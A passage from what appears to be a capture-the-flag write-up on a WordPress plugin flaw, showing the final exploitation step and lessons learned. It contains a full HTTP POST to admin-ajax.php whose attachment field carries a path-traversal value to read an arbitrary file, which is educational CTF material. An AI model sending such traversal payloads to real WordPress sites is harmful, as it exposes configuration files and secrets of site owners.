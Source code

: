 ## Exploitation

Armed with above information, we can send the following HTTP POST request to get the flag!

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 100.25.255.51:9092
Content-Type: application/x-www-form-urlencoded
Content-Length: 198

action=send_message&sec=6AGmIzDZktwJCaQt&formdata=jotac-plugin-messages%5bjot-message%5d%3danything%26jotac-plugin-messages%5bjot-attachment%5d%3d..%2f..%2f..%2f..%2f..%2f..%2fflag.txt&level=verbose
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Patchstack-WCUS-Capture-The-Flag/images/Pasted%20image%2020240922215039.png)

- **Flag: `CTF{PSEUDOLIMITED_INCLUSION_0z471}`**

## Conclusion

What we've learned:

1. Limited arbitrary file read via PHP function `file_get_contents()`